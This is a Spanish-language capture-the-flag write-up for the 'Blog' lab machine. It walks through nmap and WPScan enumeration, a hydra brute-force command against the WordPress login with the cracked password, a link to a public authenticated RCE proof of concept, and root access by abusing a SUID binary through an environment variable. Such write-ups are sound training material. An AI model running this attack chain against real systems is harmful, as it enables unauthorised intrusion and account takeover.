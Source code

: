 # Blog
## Initial Scan
```
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)

```
## Enum
### HTTP 
Añadimos blog.thm a /etc/hosts
Teniendo un Wordpress lo primero es tirar de WPScan
```bash
wpscan --url blog.thm -e u
```
Enumeramos usuarios
```
[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)
```
Tiramos de BruteForcing
```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
[80][http-post-form] host: 10.10.109.134   login: kwheel   password: cutiepie1
```
Sabiendo la version buscamos un Authenticated RCE y encontramos un CVE , como en esta casa no usamos Metasploit buscamos el POC del CVE
```
https://github.com/brianwrf/WordPress_4.9.8_RCE_POC
```
Una vez seguidos los pasos tenemos shell

## Privesc

Encontramos un SUID un tanto raro
```
/usr/sbin/checker
```
Lo observamos con ltrace y tenemos lo siguiente
```
getenv("admin") = nil
puts("Not an Admin"
    Not an Admin
  ) = 13
  ++ + exited(status 0) ++ +
```
Parce que lo que hace es verificar si una env variable tiene algún value
```
www-data@blog:/home/bjoel$ export admin=13
```
Y ya simplemente ejecutamos el SUID file en cuestión y pa dentro
```
www-data@blog:/home/bjoel$ /usr/sbin/checker
root@blog:/home/bjoel# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
Y listo
